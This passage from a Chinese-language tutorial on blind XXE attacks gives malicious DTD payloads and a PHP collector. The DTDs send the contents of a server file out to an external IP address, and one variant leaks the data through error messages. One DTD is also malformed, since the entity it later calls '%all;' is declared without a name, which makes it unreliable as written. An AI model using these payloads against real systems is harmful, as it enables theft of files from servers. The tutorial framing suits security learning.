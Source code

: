     内部的`%`号要进行**`XML`实体编码**成`&#x25`
    
    ```c
    # evil.dtd
    <!ENTITY % 
    	 "<!ENTITY &#x25; send SYSTEM 'http://192.168.111.159/getdata.php?data=%file;'>"
    >
    %all;
    ```
    
    ```c
    # getdata.php-仅供参考
    <?php
    $data = $_GET['data'];
    $myfile = fopen("xxe-data.txt","w");
    fwrite($myfile,$data);
    fclose($myfile);
    ?>
    ```
    
- 无回显 - 基于报错
    
    和上边的做法几乎一样，不一样就只有将数据带出来的方式，所以我们只要修改`evil.dtd`文件，将访问`url`修改为错误不存在的`url`
    
    ```c
    # evil.dtd
    <!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://192.168.111.159/ghhhhhh.php?data=%file;'>" 
    >
    %all;
    ```
    
    可以看到内容已经被带出来了
    
    ![image.png](image%2021.png)
    